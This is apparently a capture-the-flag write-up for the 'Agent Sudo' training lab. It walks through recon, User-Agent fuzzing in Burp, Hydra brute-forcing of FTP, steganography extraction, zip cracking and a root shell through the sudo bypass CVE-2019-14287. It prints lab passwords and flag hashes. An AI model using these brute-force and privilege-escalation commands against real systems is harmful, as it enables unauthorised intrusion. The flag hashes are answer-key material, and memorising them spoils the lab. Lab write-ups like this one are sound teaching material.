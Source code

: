====Agent Sudo Flutter July 24 2021====

'IP 10.10.219.45</br>
	$ export IP=10.10.219.45'</br>
'MYIP 10.10.213.35</br>
	$ export MYIP=10.10.213.35'

# Recon #

----------------
	Scanning
----------------

- nmap -sV -sC -T5 -oN nmap_initial $IP

		'''
		21/tcp open  ftp     vsftpd 3.0.3
		22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
		80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
			http-server-header: Apache/2.4.29 (Ubuntu)
			http-title: Annoucement
		'''

---------------------
	Visiting Site
---------------------

	'''
	Dear agents,

	Use your own codename as user-agent to access the site.

	From,
	Agent R 
	'''
Codename? Guessing the "Agent [letter]" is what they mean

- Intercepting with Burp
	> Sniper 
		>> target field: User-Agent 
		>> wordlist of a-zA-Z 
		>> don't exclude HTTP headers and grep for "10, 20, 30, 40, 50"
			//looking for "30" for redirects but more information is always nice
			< 1 redirect found! > User-Agent: C

	> Intercept
		>> set User-Agent: C

		 '''
		 Attention chris,
		
		 Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
		
		 From,
		 Agent R
		 '''


### Possible Users ###

- Chris
- R?
- J?


# Intrusion #

### ChrisFTP ###

- ftp $IP</br>
	Name: chris</br>
	Pass: crystal

ftp > ls

	'''
	-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
	-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
	-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
	'''
	
ftp > mget To_agentJ cute-alien.jpg cutie.png

ftp > exit


- To_agentJ.txt	

		'''
		Dear agent J,

		All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

		From,
		Agent C
		'''


### Steganography ###

- binwalk cutie.png -e
- ls _cutie.png.extracted

		'''
		365  365.zlib  8702.zip  To_agentR.txt
		'''
	8702.zip is password protected
		(see #Passwords#)

- 7z e 8702.zip
	> pass: alien
- To_agentR.txt

		'''
		Agent C,

		We need to send the picture to 'QXJlYTUx' as soon as possible!

		By,
		Agent R
		'''
	> QXJlYTUx
		(see #Passwords#)


- steghide extract -sf cute-alien.jpg > message.txt
	pass: Area51
		(see #Passwords#)
	

- message.txt

		'''
		Hi james,

		Glad you find this message. Your login password is hackerrules!

		Don't ask me why the password look cheesy, ask agent R who set this password for you.

		Your buddy,
		chris
		'''


### SSH ###

- ssh james@$IP</br>
	pass: hackerrules!

- ls

		'''
		Alien_autospy.jpg  user_flag.txt
		'''

*Flag Found*<details>
	<summary>Spoiler</summary>
		/home/james/user_flag.txt: b03d975e8c92a7c04146cfa7a5a313c7
</details>


# PrivEsc #

- sudo -l
	> password protected, tried "hackerrules!" and succeeded
	
		"(ALL, !root) /bin/bash"

- searching "(ALL, !root) /bin/bash"</br>
		
		CVE: 2019-14287
		"sudo -u#-1 /bin/bash"

- root gained

*Flag Found*<details>
	<summary>Spoiler</summary>
	/root/root.txt: b53a02f55b57d4439e3341834d70c062
</details>


# Passwords #

----------------
	Cracking
----------------

- chris' ftp
	hydra -l chris -P rockyou.txt $IP ftp -o chris_pass
	pass: crystal

- 8702.zip
	zip2john steno/_cutie.png.extracted/8702.zip > 8702john
	john 8702john
	pass: alien

- QXJlYTUx
	CyberChef
	base64: Area51

---------------
	Exposed
---------------

- message.txt
	user: james
 	pass: hackerrules!
